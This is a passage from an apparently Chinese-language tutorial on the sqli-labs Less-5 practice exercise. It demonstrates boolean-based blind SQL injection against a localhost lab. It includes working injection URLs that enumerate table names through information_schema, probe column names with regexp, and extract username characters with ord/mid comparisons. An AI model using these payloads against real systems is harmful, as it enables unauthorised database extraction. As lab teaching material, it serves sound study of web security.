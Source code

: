 第一个表的第二位字符：substr(\*\*\*\*,2,1)即可

`http://localhost/sql/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=108--+`

第一个表列完了，那第二个表呢？limit 1,1

### 3）使用regexp获取 2）中users表中的列

>   http://localhost/sql/Less-5/?id=1' and 1=(select 1 from information_schema.columns where table_name='users' and column_name regexp '^us[a-z]' limit 0,1)--+

上面的语句选择users表中的列是否有us**的列

>   http://localhost/sql/Less-5/?id=1' and 1=(select 1 from information_schema.columns where table_name='users' and column_name regexp '^username' limit 0,1)--+

有username，换成password也存在

### 4）利用ord() 和mid()获取users表中的内容

>   http://localhost/sql/Less-5/?id=1' and ord(mid((select ifnull(cast(username as char),0x20)from security.users order by id limit 0,1),1,1))=68--+

获取 users 表中的内容。获取 username 中的第一行的第一个字符的 ascii，与 68 进行比较， 即为 D。而我们从表中得知第一行的数据为 Dumb。所以接下来只需要重复造轮子即可

布尔盲注如上都完了，接下来就是报错注入和延时注入：

